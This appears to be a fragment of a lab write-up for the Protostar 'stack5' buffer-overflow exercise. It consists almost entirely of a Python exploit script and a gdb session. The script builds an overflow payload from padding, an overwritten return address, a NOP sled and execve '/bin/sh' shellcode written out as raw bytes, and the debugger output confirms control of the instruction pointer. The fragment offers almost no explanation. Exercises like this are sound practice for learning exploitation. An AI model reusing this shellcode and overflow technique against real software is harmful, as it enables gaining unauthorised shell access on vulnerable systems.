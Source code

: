 ### Other observations

```
$ cat ex.py
import struct

padding       = "A" * 76
eip_no_offset = "\xf0\xfc\xff\xbf"
eip           = struct.pack("I", 0xbffffcf0+30) # add 30 due to unreliability in stack
breakpoints   = "\xCC" * 4
nopsled       = "\x90" * 100
exploit       = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+eip_no_offset+breakpoints
$ gdb /opt/protostar/bin/stack5
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble *main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /tmp/output
Starting program: /opt/protostar/bin/stack5 < /tmp/output

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x $esp
0xbffffcec:	0xbffffcf0
(gdb) x $eip
0x80483da <main+22>:	0x909090c3
(gdb) si
Cannot access memory at address 0x41414145
(gdb) x $eip
0xbffffcf0:	0xcccccccc
(gdb) x $esp
0xbffffcf0:	0xcccccccc
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcf1 in ?? ()
```